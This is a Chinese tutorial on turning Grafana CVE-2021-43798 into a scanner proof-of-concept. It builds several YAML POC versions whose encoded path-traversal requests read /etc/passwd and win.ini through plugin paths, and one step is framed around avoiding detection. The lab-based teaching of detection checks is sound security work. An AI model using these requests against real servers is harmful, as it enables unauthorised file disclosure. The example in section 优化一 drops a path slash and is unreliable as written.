


# poc实例

本次编写指南将拿一个实际的漏洞（CVE-2021-43798）来举例，讲解如何将其变为高质量POC

### 相关视频教程：
[POC实例演示](https://www.bilibili.com/video/BV1tG4y1Y7ag)

### 测试环境搭建

#### 准备docker

为了方便环境的复现，我们一般选择使用docker来搭建环境。
Docker 是一个开源的应用容器引擎，让开发者可以打包他们的应用以及依赖包到一个可移植的镜像中，然后发布到任何流行的 Linux或Windows操作系统的机器上，也可以实现虚拟化。可以理解成一个准备好环境的虚拟机。
Compose 是用于定义和运行多容器 Docker 应用程序的工具。通过 Compose，可以使用 YML 文件来配置应用程序需要的所有服务。然后使用一个命令，就可以从 YML 文件配置中创建并启动所有服务。

- ubuntu20.04 + docker-compose 
   1. 本地搭建好ubuntu的环境，或者直接在阿里云上开一个机器
   2. 执行如下命令安装：`apt-get update && apt-get install docker-compose -y && docker help`
   3. 执行完成后应该就可以看到docker的help

#### 找漏洞所对应版本的环境

1. 在知道漏洞编号的情况下，可以选择前往NVD去查看CPE来了解到影响版本：[CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)


2. 在知道版本后，可以去: [Docker Hub](https://hub.docker.com) 查找是否有对应版本。


3. 前往[Docker Hub](https://hub.docker.com)后，首先可以搜索该漏洞编号，也就是CVE-2021-43798查看是否有人已经搭建了对应的环境，如果有是最方便的，可以直接拉取环境进行复现，如果没有，再找对应的版本拉取搭建。


4. 或者还可以前往vulhub，vulfocus等看是否有对应的靶场，如果有也可以直接搭建启动测试 
   1. vulhub：
   2. vulfocus：

#### 搭建环境准备测试

为了方便长时间的测试，我将使用vulhub所提供的靶场进行搭建。

在搭建好docker-compose后，执行

`git clone https://github.com/vulhub/vulhub.git`
`cd vulhub/grafana/CVE-2021-43798/`
`docker-compose up -d`
`docker ps`

然后就可以查看到启动的端口，这个时候要注意，如果是使用云服务器搭建的话，请前往控制台将对应端口开放，否则无法对该端口进行访问。
同时，记得及时关闭靶场环境，不要给坏人可乘之机。

- 现在访问对应IP+端口即可看到Grafana的登录界面

    

### 漏洞复现

从NVD的对于该漏洞的描述部分可以看到对应的exp的网站，或者直接在baidu，bing，github等直接搜索该漏洞编号，也可以找到对应的复现文章。


此处将直接使用vulhub的描述来进行测试



可以看到只要对搭建好的环境进行如下内容的发包，即可看到`etc/passwd`的内容


### 编写POC
通过上述规则，我们可以很容易的转换成一个yaml的poc：
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-1
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
expression: |
    r0()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
其中在匹配`/etc/passwd`的时候，我们可以使用正则匹配的方式对读取到的文件进行匹配，也是为了防止某些系统的passwd文件并不是x，而是直接显示真实的加密后的密码的情况。
### 优化POC
#### 优化一
但通过对复现文章仔细的分析会发现，该漏洞的路径`/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd`中，`alertlist`是可以被替换的，如果目标没有安装这个插件，那么将会出现这种情况：


所以这个时候，我们的POC就应该包括多个插件的访问。
通过对该漏洞的[信息收集](https://github.com/jas502n/Grafana-CVE-2021-43798)，我们可以发现，grafana初始安装的插件为40个，也就是说我们可以写40个规则，然后通过‘或’的逻辑对这40个规则进行连接，只要命中其中一个规则，则证明漏洞存在。
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-2
manual: true
transport: http
rules:
    r1:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r2:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r3:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r4:
        request:
            cache: true
            method: GET
            path: /public/plugins/barchart..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r5:
        request:
            cache: true
            method: GET
            path: /public/plugins/bargauge..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r6:
        request:
            cache: true
            method: GET
            path: /public/plugins/cloudwatch..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r7: 
      ....
expression: |
    r1() || r2() || r3() || r4() || r5() || r6() || r7() || r8() || r9() || r10() || r11() || r12() || r13() || r14() || r15() || r16() || r17() || r18() || r19() || r20() || r21() || r22() || r23() || r24() || r25() || r26() || r27() || r28() || r29() || r30() || r31() || r32() || r33() || r34() || r35() || r36() || r37() || r38() || r39() || r40()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
#### 优化二
通过搜索我们可以知道，grafana可以安装在linux上，也可以安装在windows上，而对于windows，并没有`/etc/passwd`给我们读取，所以我们需要添加上针对windows的情况，windows我们可以读取：`c:/windows/win.ini`，我们可以匹配：`for 16-bit app support`
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-3
manual: true
transport: http
rules:
    r0:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r1:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r2:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r3:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r4:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r5:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r6:
        request:
            cache: true
            method: GET
            path: /public/plugins/barchart/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r7:
        ...
expression: |
    r0() || r1() || r2() || r3() || r4() || r5() || r6() || r7() || r8() || r9() || r10() || r11() || r12() || r13() || r14() || r15() || r16() || r17() || r18() || r19() || r20() || r21() || r22() || r23() || r24() || r25() || r26() || r27() || r28() || r29() || r30() || r31() || r32() || r33() || r34() || r35() || r36() || r37() || r38() || r39() || r40() || r41() || r42() || r43() || r44() || r45() || r46() || r47() || r48() || r49() || r50() || r51() || r52() || r53() || r54() || r55() || r56() || r57() || r58() || r59() || r60() || r61() || r62() || r63() || r64() || r65() || r66() || r67() || r68() || r69() || r70() || r71() || r72() || r73() || r74() || r75() || r76() || r77() || r78() || r79()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
#### 优化三
就目前的POC来看，基本已经覆盖了绝大多数的情况，这个时候我们可以考虑一下发包的问题。因为我们的POC目前是对每一个目标都会发，甚至目录上下文发生了改变也会发，所有如果该POC加入到扫描阵列中的时候，在对不是grafana的目标的每一个不同的目录上下文都会发送80个数据包，而这些数据包全是无用的，这无疑会拖慢扫描速度，同时测试目标也会收到很多重复探测的数据包，在对抗中将很容易会被发现。所以接下来我们需要加一个探测规则，在确认了是grafana后，再去探测漏洞，从而减少无效包的发送。
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-4
manual: true
transport: http
rules:
    detect:
        request:
            cache: false
            method: GET
            path: /
            follow_redirects: true
        expression: |
            response.status == 200 && "window.grafana[b|B]oot[d|D]ata\\s*=\\s*{".bmatches(response.body) || response.body.bcontains(b"Sometimes restarting grafana-server can help")
    r0:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r1:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r2:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r3:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r4:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r5:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r6:
        request:
            cache: true
            method: GET
            path: /public/plugins/barchart/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r7:
        ...
expression: |
    detect() && (r0() || r1() || r2() || r3() || r4() || r5() || r6() || r7() || r8() || r9() || r10() || r11() || r12() || r13() || r14() || r15() || r16() || r17() || r18() || r19() || r20() || r21() || r22() || r23() || r24() || r25() || r26() || r27() || r28() || r29() || r30() || r31() || r32() || r33() || r34() || r35() || r36() || r37() || r38() || r39() || r40() || r41() || r42() || r43() || r44() || r45() || r46() || r47() || r48() || r49() || r50() || r51() || r52() || r53() || r54() || r55() || r56() || r57() || r58() || r59() || r60() || r61() || r62() || r63() || r64() || r65() || r66() || r67() || r68() || r69() || r70() || r71() || r72() || r73() || r74() || r75() || r76() || r77() || r78() || r79())
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
通过添加这样的探测规则，即可规避多数发送无效包的情况。
#### 优化四
由于这个POC的规则绝大多数都是重复的内容，每个规则只有一点不同的地方，所以我们可以使用payload这个关键字对POC整体进行优化，提高POC的可读性
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread
transport: http
payloads:
    payloads:
        alertlistl:
            file: |
                "etc/passwd"
            plugin: |
                "alertlist"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        annolistl:
            file: |
                "etc/passwd"
            plugin: |
                "annolist"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        grafana-azure-monitor-datasourcel:
            file: |
                "etc/passwd"
            plugin: |
                "grafana-azure-monitor-datasource"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        barchartl:
            file: |
                "etc/passwd"
            plugin: |
                "barchart"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        bargaugel:
            file: |
                "etc/passwd"
            plugin: |
                "bargauge"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        cloudwatchl:
            file: |
                "etc/passwd"
            plugin: |
                "cloudwatch"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
rules:
    detect:
        request:
            cache: false
            method: GET
            path: /
            follow_redirects: true
        expression: |
            response.status == 200 && "window.grafana[b|B]oot[d|D]ata\\s*=\\s*{".bmatches(response.body) || response.body.bcontains(b"Sometimes restarting grafana-server can help")
    r0:
        request:
            method: GET
            path: /public/plugins/{{plugin}}/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f{{file}}
        expression: |
            response.status == 200 && re.bmatches(response.body)
expression: detect() && r0()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
通过这种方式，当我们在类似sublime等的编辑器中查看的时候，就可以直接将payload隐藏起来，直接看该POC的逻辑即可。
